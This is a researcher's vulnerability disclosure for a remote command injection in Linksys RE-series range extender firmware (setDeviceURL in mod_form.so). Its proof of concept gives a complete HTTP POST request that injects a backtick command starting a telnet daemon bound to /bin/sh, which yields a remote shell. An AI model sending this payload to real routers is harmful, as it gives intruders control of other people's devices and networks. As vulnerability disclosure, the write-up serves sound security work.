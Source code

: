 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `setDeviceURL` function, `DeviceURL` is directly passed by the attacker, so we can control the `DeviceURL` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `DeviceURL` as **`busybox telnetd -l /bin/sh -p 2226`** , and the router will excute it,such as:

```http
POST /goform/setDeviceURL HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=WU2wxPWkJ2bVXSRyNWO0cci74EJ5jgkF
Upgrade-Insecure-Requests: 1

DeviceURL=`busybox telnetd -l /bin/sh -p 2226`
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

